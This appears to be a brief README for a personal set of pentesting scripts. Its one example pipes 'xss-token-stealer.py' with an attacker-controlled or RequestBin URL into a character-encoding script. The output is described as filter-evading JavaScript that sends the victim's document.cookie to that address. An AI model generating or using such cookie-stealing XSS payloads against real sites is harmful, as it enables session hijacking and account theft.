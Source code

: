 # Tools

Random script and tools I made to avoid retyping it everytime.

## Examples:
Let's say you want to generate an XSS payload to steal an authentication cookie. You could do this:
```
./xss-token-stealer.py "https://<CONTROLLED DOMAIN NAME/REQUESTBIN>" | ./charcodify.py
```

This would issue a javascript code that avoids common bad character and exfiltrates the document.cookie to the specified address.
